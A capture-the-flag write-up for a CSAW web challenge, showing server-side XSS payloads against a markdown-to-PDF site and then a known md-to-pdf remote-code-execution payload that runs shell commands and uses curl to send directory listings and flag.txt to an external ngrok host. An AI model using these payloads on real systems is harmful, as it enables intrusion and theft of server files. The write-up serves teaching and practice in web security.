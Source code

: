 ```yaml
---
Category: WEB | 148 pts - 204 Solves
---
```


# My little website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
> [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a pdf rendering website, we can inject markdown or maybe...javascript.\
First thing, check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<figure><img src="./assets/1.png" alt=""><figcaption></figcaption></figure>

Ok, vulnerable, actually, it's Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application. \
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<figure><img src="./assets/2.png" alt=""><figcaption></figcaption></figure>

We're inside /chal directory, node.js webapp, but index.js seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<figure><img src="./assets/3.png" alt=""><figcaption></figcaption></figure>

That's a lot of info, but what's most important is the `mdToPdf` package, with a quick search we'll know that we can do RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="./assets/4.png" alt=""><figcaption></figcaption></figure>

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="./assets/5.png" alt=""><figcaption></figcaption></figure>

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="./assets/6.png" alt=""><figcaption></figcaption></figure>

> CTF{pdf\_c0nt1nu3s\_70\_5uCK}
